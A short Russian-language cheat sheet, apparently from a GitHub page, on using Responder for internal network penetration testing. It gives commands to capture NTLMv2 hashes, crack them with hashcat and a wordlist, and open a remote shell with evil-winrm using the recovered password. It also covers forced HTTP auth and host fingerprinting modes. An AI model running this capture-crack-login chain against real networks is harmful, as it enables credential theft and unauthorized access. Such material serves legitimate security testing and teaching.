 # Responder
## Введение 
**Responder** - универсальная утилита, которая используется для тестирования безопасности внутренней сети.


## Responder в режиме прослушивания
**Режим прослушивания ( analyze )** - Responder собирает всю информацию из сети и представляет в том виде, который можно использовать в последующих атаках.

**Команда для запуска режима:**
```Python
responder -A -I eth0
```
Перехватив NTLMv2 хеш, положим их в файл `tickets.txt` и попробуем восстановить пароли аккаунтов, отправивших нам хеши:  
`hashcat -a 0 -w 4 -m 5600 tickets.txt /usr/share/wordlists/rockyou.txt`

После получения пароля воспользуемся утилитой [evil-winrm](https://github.com/Hackplayers/evil-winrm) для получения удобного доступа к терминальной оболочке сервера:  
`evil-winrm -i [ip] -u [username] -p [password]`
## Атака HTTP Auth
**Команда для запуска режима:**
```python
responder -b -I eth0
```
## Сбор информации о хосте в сети
**Команда для запуска режима:**

```python
responder -f -I eth0
```

